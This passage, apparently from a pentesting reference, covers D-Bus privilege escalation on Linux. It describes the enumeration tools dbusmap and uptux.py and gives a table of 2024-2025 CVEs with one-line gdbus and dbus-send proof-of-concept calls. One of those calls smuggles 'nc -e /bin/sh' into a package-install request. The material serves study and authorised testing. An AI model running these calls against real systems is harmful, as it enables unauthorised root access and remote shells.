 ```c:d-bus_server.c
}
```

## Automated Enumeration Helpers (2023-2025)

Enumeration of a large D-Bus attack surface manually with `busctl`/`gdbus` quickly becomes painful. Two small FOSS utilities released in the last few years can speed things up during red-team or CTF engagements:

### dbusmap ("Nmap for D-Bus")
* Author: @taviso – [https://github.com/taviso/dbusmap](https://github.com/taviso/dbusmap)
* Written in C; single static binary (<50 kB) that walks every object path, pulls the `Introspect` XML and maps it to the owning PID/UID.
* Useful flags:
  ```bash
  # List every service on the *system* bus and dump all callable methods
  sudo dbus-map --dump-methods

  # Actively probe methods/properties you can reach without Polkit prompts
  sudo dbus-map --enable-probes --null-agent --dump-methods --dump-properties
  ```
* The tool marks unprotected well-known names with `!`, instantly revealing services you can *own* (take over) or method calls that are reachable from an unprivileged shell.

### uptux.py
* Author: @initstring – [https://github.com/initstring/uptux](https://github.com/initstring/uptux)
* Python-only script that looks for *writable* paths in systemd units **and** overly-permissive D-Bus policy files (e.g. `send_destination="*"`).
* Quick usage:
  ```bash
  python3 uptux.py -n          # run all checks but don’t write a log file
  python3 uptux.py -d          # enable verbose debug output
  ```
* The D-Bus module searches the directories below and highlights any service that can be spoofed or hijacked by a normal user:
  * `/etc/dbus-1/system.d/` and `/usr/share/dbus-1/system.d/`
  * `/etc/dbus-1/system-local.d/` (vendor overrides)

---

## Notable D-Bus Privilege-Escalation Bugs (2024-2025)

Keeping an eye on recently published CVEs helps spotting similar insecure patterns in custom code. The following high-impact local EoP issues all stem from missing authentication/authorization on the **system bus**:

| Year | CVE | Component | Root Cause | One-Liner PoC |
|------|-----|-----------|------------|---------------|
| 2024 | CVE-2024-45752 | `logiops` ≤ 0.3.4 (Logitech HID daemon) | The `logid` system service exposes an unrestricted `org.freedesktop.Logiopsd` interface that lets *any* user change device profiles and inject arbitrary shell commands via macro strings. | `gdbus call -y -d org.freedesktop.Logiopsd -o /org/freedesktop/Logiopsd -m org.freedesktop.Logiopsd.LoadConfig "/tmp/pwn.yml"` |
| 2025 | CVE-2025-23222 | Deepin `dde-api-proxy` ≤ 1.0.18 | A root-running proxy forwards legacy bus names to backend services **without forwarding caller UID/Polkit context**, so every forwarded request is treated as UID 0. | `gdbus call -y -d com.deepin.daemon.Grub2 -o /com/deepin/daemon/Grub2 -m com.deepin.daemon.Grub2.SetTimeout 1` |
| 2025 | CVE-2025-3931 | Red Hat Insights `yggdrasil` ≤ 0.4.6 | Public `Dispatch` method lacks any ACLs → attacker can order the *package-manager* worker to install arbitrary RPMs. | `dbus-send --system --dest=com.redhat.yggdrasil /com/redhat/Dispatch com.redhat.yggdrasil.Dispatch string:'{"worker":"pkg","action":"install","pkg":"nc -e /bin/sh"}'` |
